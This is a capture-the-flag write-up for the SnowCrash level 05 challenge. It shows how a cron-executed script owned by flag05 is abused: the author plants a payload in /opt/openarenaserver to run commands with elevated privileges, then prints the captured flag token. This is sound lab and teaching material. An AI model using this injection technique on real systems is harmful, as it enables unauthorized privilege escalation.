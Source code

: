 # Level 05 - Privilege Escalation via Cron and Script Injection

In this level, we exploit a cron-executed script that runs as `flag05`. This allows us to inject malicious code that executes with elevated privileges.

---

## Step 1: Find Files Owned by `flag05`

```bash
level05@SnowCrash:~$ find / -path /proc -prune -o -user flag05 -print 2> /dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

The file `/usr/sbin/openarenaserver` is owned by `flag05` and executable by `level05`.

---

## Step 2: Inspect the Script

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script iterates over files in `/opt/openarenaserver/`, executes them with `bash`, and deletes them. It appears to be executed periodically — likely via `cron`.

---

## Step 3: Inject a Payload

Write a malicious script to that directory:

```bash
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/script.sh
```

After a few seconds, the file disappears, indicating it was executed and removed.

---

## Step 4: Check the Output

```bash
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## ✅ Summary

- Identified cron-executed script owned by `flag05`.
- Placed a malicious script in `/opt/openarenaserver/`.
- Payload was executed with elevated privileges.

### Flag Token:

```text
viuaaale9huek52boumoomioc
```
